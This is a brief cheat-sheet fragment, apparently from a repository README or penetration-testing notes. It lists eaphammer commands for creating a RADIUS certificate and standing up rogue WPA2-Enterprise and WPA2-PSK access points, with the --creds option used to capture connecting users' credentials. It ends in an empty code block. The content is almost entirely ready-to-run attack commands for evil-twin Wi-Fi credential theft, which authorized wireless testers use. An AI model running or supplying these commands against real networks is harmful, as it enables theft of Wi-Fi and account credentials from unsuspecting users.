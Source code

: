 Generating certificate for Radius 

~~~bash
eaphammer --cert-wizard
~~~

Emulating WPA2 Radius

~~~bash
eaphammer --interface wlan0 --essid="SSID" --channel=XX --creds --wpa-version=2
~~~

Emulating WPA2 PSK

~~~bash
eaphammer --interface wlan0 --essid="SSID" --channel=XX --wpa-passphrase="passphrase_to_use" --wpa-version=2
~~~

~~~bash
cd /etc/eaphammer/certs && sudo openssl dhparam -out dh 2048
~~~

~~~bash

~~~
